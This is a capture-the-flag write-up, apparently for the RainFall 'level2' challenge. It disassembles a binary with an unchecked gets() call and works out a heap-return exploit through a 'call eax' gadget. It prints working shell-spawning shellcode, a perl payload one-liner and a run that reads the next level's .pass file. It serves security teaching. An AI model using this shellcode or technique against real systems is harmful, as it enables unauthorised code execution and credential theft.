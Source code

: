 # level2

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

We check the functions:

```gdb
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x08048358  _init
0x080483a0  printf
0x080483a0  printf@plt
0x080483b0  fflush
0x080483b0  fflush@plt
0x080483c0  gets
0x080483c0  gets@plt
0x080483d0  _exit
0x080483d0  _exit@plt
0x080483e0  strdup
0x080483e0  strdup@plt
0x080483f0  puts
0x080483f0  puts@plt
0x08048400  __gmon_start__
0x08048400  __gmon_start__@plt
0x08048410  __libc_start_main
0x08048410  __libc_start_main@plt
0x08048420  _start
0x08048450  __do_global_dtors_aux
0x080484b0  frame_dummy
0x080484d4  p
0x0804853f  main
0x08048550  __libc_csu_init
0x080485c0  __libc_csu_fini
0x080485c2  __i686.get_pc_thunk.bx
0x080485d0  __do_global_ctors_aux
0x080485fc  _fini
```

Cool! Let's take a look at `main`:

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   ebp
   0x08048540 <+1>:     mov    ebp,esp
   0x08048542 <+3>:     and    esp,0xfffffff0
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
```

It calls function `<p>`. *Bueno*.

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   ebp
   0x080484d5 <+1>:     mov    ebp,esp
   0x080484d7 <+3>:     sub    esp,0x68
   0x080484da <+6>:     mov    eax,ds:0x8049860
   0x080484df <+11>:    mov    DWORD PTR [esp],eax
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>       ; Flush the stdout.
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]               ; eax = ebp - 76 bytes.
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax          ; *esp = eax.
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>         ; Call `gets`.
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]      ; Put eip in eax.
   0x080484f5 <+33>:    mov    DWORD PTR [ebp-0xc],eax      ; Put eip at ebp-0xc.
   0x080484f8 <+36>:    mov    eax,DWORD PTR [ebp-0xc]      ; Move eip in eax again.
   0x080484fb <+39>:    and    eax,0xb0000000               ; eip & 0xb0000000 is a filter.
   0x08048500 <+44>:    cmp    eax,0xb0000000               ; Is eax != 0xb0000000?
   0x08048505 <+49>:    jne    0x8048527 <p+83>             ; Yes: jump to <p+83>.
   0x08048507 <+51>:    mov    eax,0x8048620
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]      ; edx = eip (formerly at ebp-0xc).
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx      ; Put eip on stack at esp+0x4.
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax          ; Put eax on stack at esp.
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>       ; Call printf with parameters put on stack.
   0x0804851b <+71>:    mov    DWORD PTR [esp],0x1          ; Put 0x1 on stack at esp.
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>        ; Call exit, that is to say exit(1).
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

## Exploit

After analysis, we know that we can't use a stack address in `eip`. Hopefully, `strdup` allows us to go on the heap
where our string will be duplicated. Like in level1, we use this [online
tool](http://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) to find the offset: 80.

Here is how it works:
1. The buffer will contain a shellcode to spawn a new shell.
2. But, this buffer is both on the stack and the heap because of `strdup`. It returns the string pointer into `eax`.
3. The filter (`eax & 0xb0000000`) avoid us to use stack addresses. We need to use the one on the heap. So we are going
   to use a `call eax` instruction to jump to our buffer content (with the shell-code).

So let's do it! First, design the shell code. 

```
\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

is equivalent to:

```C
excve("/bin/sh", ["/bin/sh"], NULL);
```

Now, we need to look for a `call eax` instruction to get its address:

```console
level2@RainFall:~$ objdump -d -M intel level2 | grep "call   eax"
 80484cf:   ff d0                call   eax
 80485eb:   ff d0                call   eax
```

So now we have almost everything. We just need to add a `nop` sled and a `jump` instruction to avoid an infinite loop
between the beginning of the buffer and the `call eax`. Let's dump it into a file:

```console
level2@RainFall:~$ perl -e 'print "\x90"x62 . "\xeb\x14" . "\x90"x16 . "\xcf\x84\x04\x08" . "\x90"x20 . "\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"' > /tmp/level2
```

And you run:

```console
level2@RainFall:~$ cat /tmp/level2 - | ./level2
...
[hit return, some garbage display]
...
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

